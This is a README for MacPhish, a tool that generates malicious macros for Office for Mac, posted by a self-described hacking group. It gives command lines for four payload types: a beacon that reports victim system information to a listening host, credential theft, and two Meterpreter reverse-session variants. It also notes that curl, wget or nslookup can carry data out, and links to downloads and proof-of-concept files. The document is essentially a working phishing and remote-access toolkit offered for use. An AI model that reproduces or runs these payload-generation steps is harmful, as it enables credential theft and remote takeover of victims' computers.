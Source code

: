 # [MacPhish](https://github.com/The404Hacking/MacPhish)
Office for Mac Macro Payload Generator

![macphish](macphish-alpha.png?raw=true "macphish")

## Attack vectors
There are 4 attack vectors available:
* beacon
* creds
* meterpreter
* meterpreter-grant

For the 'creds' method, macphish can generate the Applescript script directly, in case you need to run it from a shell. 

### beacon
On execution, this payload will signal our listening host and provide basic system information about the victim. The simplest way of generating a beacon payload is:
```
$./macphish.py -lh <listening host> 
```
By default, it uses curl but other utilities (wget, nslookup) can be used by modifying the command template. 

### creds
```
$./macphish.py -lh <listening host> -lp <listening port> -a creds
```
### meterpreter
The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter 
```
### meterpreter-grant
The generate a meterpreter payload that calls GrantAccessToMultipleFiles() first:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter-grant
```

For meterpreter attacks, only python payloads are supported at the moment. 

## Usage
See [https://github.com/The404Hacking/MacPhish/wiki](https://github.com/The404Hacking/MacPhish/wiki)

## PoCs
* <https://drive.google.com/open?id=0BzPR8exG0kt6TlY1UWhiemVKRnc>
* <https://drive.google.com/open?id=0BzPR8exG0kt6WWUzU0tKUjFhdjg>
* <https://drive.google.com/open?id=0BzPR8exG0kt6VzlaWVVJdEtNR0k>
* <https://drive.google.com/open?id=0BzPR8exG0kt6SnJwM01KSzAzMjA>

## Download and Clone
> Download: [https://github.com/The404Hacking/MacPhish/archive/master.zip](https://github.com/The404Hacking/MacPhish/archive/master.zip)

> Clone: git clone [https://github.com/The404Hacking/MacPhish](https://github.com/The404Hacking/MacPhish.git)

## The404Hacking | Digital UnderGround Team
[The404Hacking](https://T.me/The404Hacking)

## Follow us !
[The404Hacking](https://T.me/The404Hacking) - [The404Cracking](https://T.me/The404Cracking)

[Instagram](https://instagram.com/The404Hacking) - [GitHub](https://github.com/The404Hacking)

[YouTube](http://yon.ir/youtube404) - [Aparat](http://www.aparat.com/The404Hacking)

[The404Hacking.BlogSky.Com](http://the404hacking.blogsky.com)
